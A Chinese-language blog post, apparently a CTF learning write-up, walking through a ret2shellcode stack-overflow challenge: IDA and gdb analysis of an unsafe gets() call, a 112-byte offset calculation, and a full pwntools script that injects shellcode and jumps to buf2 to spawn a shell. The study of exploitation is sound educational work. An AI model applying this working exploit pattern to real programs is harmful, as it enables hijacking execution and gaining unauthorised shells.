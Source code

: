 ```yaml
---
layout:     post
title:      pwn学习（二）：栈溢出注入shellcode
subtitle:   利用栈溢出获取控制权
date:       2021-05-26
author:     Hongtai S
header-img: img/6.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - 栈溢出
    - pwn
    - shellcode
---
```

# 栈溢出注入shellcode#

## ret2shellcode题目分析 ##

将文件ret2shellcode拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/08/i3YNMK2IVwse6l9.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

程序中没有能够进入shell的函数，但是构造了一个环境变量buf2，存放在bbs区。检查程序有没有开PIE，说明每次运行bbs区都不会改变地址。

![2.PNG](https://i.loli.net/2021/08/08/JRdMm8bkKG2wLFa.png)

因此可以利用这个缓冲区承载shellcode并执行，而strncpy函数刚好可以将gets接受的内存复制到缓冲区，覆盖的跳转地址即为buf2的基址。利用Ida查看buf2的基址是0x0804A080：

![3.PNG](https://i.loli.net/2021/08/08/5DKWZgBxSlCLeTR.png)

gdb动态调试验证：

到gets()函数，输入字符串AAAA后查看栈中情况：

![4.PNG](https://i.loli.net/2021/08/08/cdMVUWjxl9n7wFR.png)

可以看到栈中字符串的首地址为0xffffd12c，ebp的首地址为0xffffd198，他们之间的距离为0xffffd12c-0xffffd198 = 108，算上ebp需要填充的字符为b'A' * 108 + 'B' * 4，左后在加上跳转的地址即可改变程序的执行流。但是此时发现程序无处可跳转，因为没有获取shell的命令，因此利用buf2写入获取shell的命令，跳转到buf2的基址即可，而填充栈的字符中刚好可以将shellcode写入栈，因此填充字符的前半部分改为获取shell的shellcode，然后填充至112字符即可。

![5.PNG](https://i.loli.net/2021/08/08/9KksiCUj2ZJXmHY.png)

## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2shellcode")

#接受程序的一行打印
io.recvline()

#获取能够获得shell的二进制代码
shellcode = asm(shellcraft.sh())

#构造payload,用ljust函数帮助填充shellcode至112个字符大小
payload = shellcode.ljust(112, b'A') + p32(0x0804A080)

#发送构造的数据
io.sendline(payload)

#获取shell交互
io.interactive()

```

运行脚本成功获取shell权限
![6.PNG](https://i.loli.net/2021/08/08/xOerPU2sqiYw1nD.png)




